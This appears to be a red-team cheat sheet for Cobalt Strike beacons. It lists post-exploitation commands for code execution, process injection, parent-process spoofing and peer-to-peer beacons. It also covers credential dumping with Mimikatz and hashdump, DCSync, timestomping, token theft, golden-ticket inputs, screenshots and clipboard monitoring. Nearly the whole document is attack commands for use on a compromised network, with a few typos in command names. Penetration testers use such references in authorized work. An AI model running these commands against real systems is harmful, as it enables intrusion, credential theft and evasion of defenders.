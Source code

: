 # Command Reference

## Beacons

### **Sleep**

```css
sleep 60 50               ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly)
```

## Command Execution

### **Default**

```css
run [command]
```

### **powershell.exe**

```css
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```

### **powerpick (Using PS w/o powershell.exe)**

```css
powrepick [cmdlet] [args]
```

### **psinject (Using PS within another process)**

```css
psinject [PID] [x86|x64] [cmdlet] [args]
```

### **.NET**

```css
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

### **cmd.exe**

```css
shell [command] [args]
```

### Session Passing

```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

### Parent Process Modification

```css
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

### &#x20;SMB Beacn

```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

### TCP Beacn

```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

## Credentials and Hashes

```css
logonpasswords                              ; Run Mimikatz
hashdump                                    ; Get SAM database hashes
```

## Mimikatz

```css
mimikatz [command] [args]                   ; Runs a Mimikatz command
mimikatz ![command] [args]                  ; Elevate to SYSTEM and run Mimikatz command
mimikatz @[command] [args]                  ; User current token to run Mimikatz command
```

## DCSync

```css
dcsync [domain] [DOMAIN\user]
```

## File Download

```css
download [file]
cancel [file|*]
downloads
View --> Downloads --> Sync Files
```

## File Upload

```css
upload [/path/to/file]
timestomp [Destination] [Source]            ; Changing file's timestamps (*Do not recommend using it during the engagement)
```

## Token Stealing

```css
ps                                          ; List process
steal_token [PID]                           ; Stealing token
getuid                                      ; Identify/confirm who you are
rev2self                                    ; Drop/revoke token

spawnas DOMAIN\user password                ; Spawn a beacon w/ alternative creds
make_token DOMaIN\user password             ; Create a token. So when you do a make_token, when you do 'whoami' you will
                                            ; still see your current user account; however, if you do a remote 'whoami'
                                            ; (maybe against DC) you will see that the maked token user.
```

## Kerberos Tickets

```css
klist                                       ; See your current Kerberos tray
kerberos_ticket_purge                       ; Purge tickets
kerberos_ticket_user [/path/to/file.ticket] ; Load a ticket

<Golden Ticket>
- Desired user and DOMAIN name
- Domain SID [whoami /user + drop last number]
- NTLM hash of krbtgt user from DC
```

## Screenshots

```css
screenshot [pid] <x84|x64>
screenwatch [pid] <x84/x64>
printscreen
```

## Keylogging / ClipboardTheft

* [Start-ClipboardMonitor.ps1](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/Start-ClipboardMonitor.ps1)

```css
psinject <Process ID> x64 Start-ClipboardMonitor -CollectionLimit 5
```

{% embed url="https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/README.md" %}
